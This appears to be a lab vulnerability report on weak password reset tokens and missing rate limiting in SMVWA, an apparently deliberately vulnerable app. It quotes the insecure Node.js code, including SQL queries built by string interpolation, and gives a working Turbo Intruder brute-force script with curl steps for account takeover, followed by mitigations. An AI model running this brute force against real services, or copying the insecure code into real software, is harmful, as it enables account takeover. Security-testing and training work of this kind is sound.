



# Brute-Force-02 — Weak Password Reset Token + No Rate Limiting

## 1. Vulnerability Name
Weak Reset Token Generation + Absence of Rate Limiting on `POST /api/reset-password`

## 2. Brief Description
The `/api/forgot-password` endpoint generates a reset token as a simple 6-digit random number (range `100000–999999`), resulting in only 900,000 possible tokens. The `/api/reset-password` endpoint accepts any token without rate limiting or expiration checking, allowing an attacker to brute-force all possible token values and reset any user's password. Tokens generated once remain valid indefinitely.

## 3. Environment & Assumptions
- Application: SMVWA (commit SHA: `7846ecb14448da0f2bc4822d25feda988dc92ad6`)
- Testing tools: Burp Suite Community Edition Version 2025.12.5 (20260123234417) with Turbo Intruder
- User / test context: attacker targeting a known email account (e.g., `alice@smvwa.local`)
- Relevant endpoints:
  - `POST /api/auth/forgot-password`
  - `POST /api/auth/reset-password`

## 4. Steps to Reproduce (PoC)

### Vulnerable code
`vulnerable/backend/routes/auth.js`, around line 66:
```js
const token = String(Math.floor(100000 + Math.random() * 900000));
await pool.query(`INSERT INTO password_resets (user_id, token) VALUES (${userId}, '${token}')`);
```

`vulnerable/backend/routes/auth.js`, around line 90:
```js
const result = await pool.query(`SELECT user_id FROM password_resets WHERE token = '${token}'`);

if (result.rows.length === 0) {
  return res.status(HTTP_STATUS.BAD_REQUEST).json({ error: 'Invalid reset token' });
}
```

No rate limiting, no token expiration, and no validity window checks are enforced on `/api/auth/reset-password`. Tokens stored in `password_resets` have no `expires_at` column and are never pruged, meaning a token issued months ago remains usable forever.

### Step 1 — Request a password reset token for the target account
```bash
curl -s -X POST http://localhost:3000/api/auth/forgot-password \
  -H "Content-Type: application/json" \
  -d '{"email":"alice@smvwa.local"}'
```

The response reveals the token (for demo only; in production it would not be shown):
```json
{"message":"Password reset token generated.","debug_token":"534892"}
```

### Step 2 — Brute-force all possible 6-digit tokens
Use Burp Suite with Turbo Intruder to iterate through all 900,000 token values:

**Request template:**
```http
POST /api/auth/reset-password HTTP/1.1
Host: localhost:3000
Content-Type: application/json

{"token":%s,"new_password":"BruteForceNewPass"}
```

**Turbo Intruder Python script:**
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=10,
                           requestsPerConnection=100,
                           pipeline=False,
                           engine=Engine.THREADED)

    for i in range(100000, 1000000):
        token = str(i)
        engine.queue(target.req, token)

def handleResponse(req, interesting):
    if "invalid" not in req.response.lower():
        table.add(req)
```

### Step 3 — Identify the valid token
The script filters responses that do NOT contain "invalid", revealing the correct token.

Expected result:
- Turbo Intruder finds the valid token within seconds.
- One response shows `"success":true` instead of the error message.

### Step 4 — Use the recovered token to reset the password
```bash
curl -s -X POST http://localhost:3000/api/auth/reset-password \
  -H "Content-Type: application/json" \
  -d '{"token":"534892","new_password":"AttackerPassword"}'
```

Expected result:
- The password is successfully reset.

### Step 5 — Log in with the new password
```bash
curl -s -X POST http://localhost:3000/api/auth/login \
  -H "Content-Type: application/json" \
  -d '{"email":"alice@smvwa.local","password":"AttackerPassword"}'
```

Expected result:
- Authentication succeeds; the attacker now controls the account.

## 5. Evidence (Screenshots)




## 6. Impact (CIA + Business)
- **Confidentiality:** An attacker can take over any user account and access private data, messages, and profile information. Tokens issued weeks or months ago remain valid, extending the attack window indefinitely.
- **Integrity:** The attacker can modify the victim's account, posts, and behavior on the platform. Once a token is found, the attacker can use it to reset the password at any later time.
- **Availability:** Attacker can delete posts, spam, or disrupt other users' experience. The lack of token expiration means past password reset requests continue to pose a threat.
- **Business impact:** Full account takeover without needing the user's original password, affecting user trust and regulatory compliance (GDPR, etc.). Stale tokens accumulate over time, increasing overall attack surface.

## 7. Risk Rating (CVSS 3.1)
```text
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:L
Score: 8.6 — HIGH
```

Rationale: remotely exploitable, no user interaction required, results in account takeover for any targeted user.

## 8. Recommended Mitigation
1. Use cryptographically strong token generation with sufficient entropy (minimum 128 bits):
   ```js
   const token = crypto.randomBytes(32).toString('hex');
   ```

2. Enforce rate limiting on `/api/auth/reset-password`:
   - Max 5 attempts per IP per 15 minutes
   - Max 3 attempts per reset token
   - Return `429 Too Many Requests` when threshold exceeded

3. Add CAPTCHA after 3 failed attempts.

4. Set token expiration (e.g., 15 minutes).

5. Invalidate all reset tokens for a user account after successful password change.

## 9. Remediation Guidance
1. Replace `Math.floor(100000 + Math.random() * 900000)` with `crypto.randomBytes(32).toString('hex')` in `/api/auth/forgot-password`.
2. Add Redis or in-memory rate limiting middleware to track reset attempts per IP and per token.
3. Set `token_expires_at = NOW() + INTERVAL '15 minutes'` in the `password_resets` table and validate on reset:
   ```js
   const now = new Date();
   const isExpired = new Date(passwordReset.token_expires_at) < now;
   if (isExpired) {
     return res.status(400).json({ error: 'Reset token has expired' });
   }
   ```
4. Implement CAPTCHA challenge after 3 failed token validations on the same email.
5. Delete all `password_resets` records after successful password change to prevent token reuse.
6. Implement a background job to periodically delete expired reset tokens (older than 1 day).
7. Add automated tests verifying that:
   - 100 sequential requests are rejected after hitting the rate limit,
   - tokens expire after 15 minutes,
   - tokens are deleted upon successful password reset.
